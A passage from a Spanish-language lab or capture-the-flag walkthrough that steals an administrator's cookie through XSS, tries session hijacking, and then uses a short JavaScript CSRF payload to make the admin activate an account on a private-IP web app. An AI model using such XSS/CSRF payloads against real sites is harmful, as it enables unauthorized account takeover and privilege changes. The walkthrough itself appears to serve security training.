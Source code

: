 **🎯 Resultado exitoso:** El servidor captura la cookie del administrador:

![Cookie capturada](Pasted%20image%2020251009230555.png)
### 3.4 Hijacking de Sesión

Intentamos usar la cookie capturada para suplantar al administrador:

![Modificación de cookie](Pasted%20image%2020251009230818.png)

**❌ Obstáculo:** El sistema implementa restricción de sesión única:

![Sesión única](Pasted%20image%2020251009230956.png)

### 3.5 Cross-Site Request Forgery (CSRF)

Analizamos la URL de activación: `http://192.168.0.248/admin/admin.php?id=16&status=active`

**Estrategia:** Usar XSS para forzar al administrador a ejecutar la activación por nosotros.

**Payload CSRF mejorado:**
```javascript
var request = new XMLHttpRequest();
request.open('POST', 'http://192.168.0.248/admin/admin.php?id=16&status=active');
request.send();
```

**✅ Resultado:** La cuenta se activa exitosamente:

![Usuario activado](Pasted%20image%2020251009231845.png)
![Confirmación de activación](Pasted%20image%2020251009232623.png)

